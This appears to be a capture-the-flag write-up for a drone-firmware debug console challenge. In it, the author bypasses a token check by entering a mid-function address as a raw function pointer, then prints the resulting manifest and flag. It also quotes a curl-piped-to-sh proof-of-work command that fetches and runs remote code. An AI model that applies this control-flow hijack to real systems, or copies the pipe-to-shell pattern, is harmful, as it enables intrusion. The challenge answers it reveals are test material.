

# day 6 KDNU-3B

category : binary exploit

## Challenge Overview

A drone firmware debug console is provided over a TCP connection.

The task is to analyze and exploit the firmware to find hidden Indicators of Compromise (IoC).

This challenge simulates:

- insecure debug interface
- firmware function pointer misuse
- authentication / token check bypass

## Initial Access

Connection to the service is made using netcat:

```bash
nc ctf.csd.lol 1001

```

Server requests Proof of Work (PoW):

```
proof of work:
curl -sSfL <https://pwn.red/pow> | sh -s s.AAAAAw==.p/pJbNCn1n/dOan+/90J9A==

```

The command is executed locally:

```bash
curl -sSfL <https://pwn.red/pow> | sh -s s.AAAAAw==.p/pJbNCn1n/dOan+/90J9A==

```

The result is a **solution token**, which is then sent back to the server.

If valid, the server opens access to:

```
DRONE FIRMWARE DEBUG CONSOLE>

```

---

## Vulnerability Analysis

### Debug Console Behavior

The console only accepts **hexadecimal input**:

```
DRONE FIRMWARE DEBUG CONSOLE> 401955

```

From binary analysis, the program's behavior is equivalent to the following pseudo-code:

```c
long fn_ptr;
scanf("%lx", &fn_ptr);
((void(*)())fn_ptr)();

```

**Critical vulnerability:**

User input is directly used as a **function pointer** without validation.

---

## Firmware Function Discovery

Through static analysis, an important function was discovered called:

```
nav_core()

```

This function:

- checks the navigation token
- if valid, reads the firmware manifest file
- if not, denies access

Starting function:

```c
if (!valid_token) {
puts("Invalid navigation token.");
return;
}

```

---

## Failed Attempt (Expected Behavior)

Calling the function from the beginning:

```
DRONE FIRMWARE DEBUG CONSOLE> 401955
Invalid navigation token.

```

This means the token has not been set, so the function stops.

---

## Exploitation Strategy

Instead of calling `nav_core()` from the beginning, we jump to the middle of the function, right after the token check.

Target address:

```
0x401989

```

This address is located in the section of code that:

- opens the `manifest` file
- reads its contents
- prints to STDOUT

---

## Successful Exploit

Console input:

```
DRONE FIRMWARE DEBUG CONSOLE> 401989

```

The server responds with the contents of the firmware manifest:

```
KDNU3B-MANIFEST
format_version=2
fw_family=KDNU-DRONE-NAV
fw_id=kdnu3b-nav-autopilot
fw_version=1.7.24
build_branch=krampus-prod
build_id=2024-12-01T23:41:09Z
signing_key_id=NP-HSM-KEY-07
region_lock=GLOBAL
min_bootloader=0x00020005
image_offset=0x00004000
image_size=00036F80
hash_algo=sha256
image_hash=5f4c3f7d8f0b2737c0f5fd8e8da41c6b9e1372cbe9c6760e5d8e9e4f3d7c9b21
telemetry_profile=KDNU3B-TM-v4
calibration_profile=csd{3Asy_F1rmWAr3_HACk1N9_Fr}
failsafe_mode=HARD_LOCKDOWN
debug_build=false
secure_boot=true
seal_status=SEALED

```

## Flag

```
csd{3Asy_F1rmWAr3_HACk1N9_Fr}

```

```jsx
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Downloads]
└─$ nc ctf.csd.lol 1001

proof of work:
curl -sSfL https://pwn.red/pow | sh -s s.AAAAAw==.p/pJbNCn1n/dOan+/90J9A==
solution: s.CA8ORJ6nocSbxX4cr5zUnEFvxt3LGcZQWLjiw1I5eC154K4zRjuMYFKv2Gn1sHQyIDmMIv5teXjrex18p8G3tPglquNEiA6SBOOr4yM6gPzvvcxGQvx/O5I9FeSjlni4CSOhwhFDttFbXxCLLrAnx8R8rztJNS4LXiH/cvjl+mO4oxum/ALapGB/WeAz/njyDXZK8iTJpULNx0ZhwZf/Cw==
DRONE FIRMWARE DEBUG CONSOLE> 401989
KDNU3B-MANIFEST
format_version=2
fw_family=KDNU-DRONE-NAV
fw_id=kdnu3b-nav-autopilot
fw_version=1.7.24
build_branch=krampus-prod
build_id=2024-12-01T23:41:09Z
signing_key_id=NP-HSM-KEY-07
region_lock=GLOBAL
min_bootloader=0x00020005
image_offset=0x00004000
image_size=00036F80
hash_algo=sha256
image_hash=5f4c3f7d8f0b2737c0f5fd8e8da41c6b9e1372cbe9c6760e5d8e9e4f3d7c9b21
telemetry_profile=KDNU3B-TM-v4
calibration_profile=csd{3Asy_F1rmWAr3_HACk1N9_Fr}
failsafe_mode=HARD_LOCKDOWN
debug_build=false
secure_boot=true
seal_status=SEALED

```


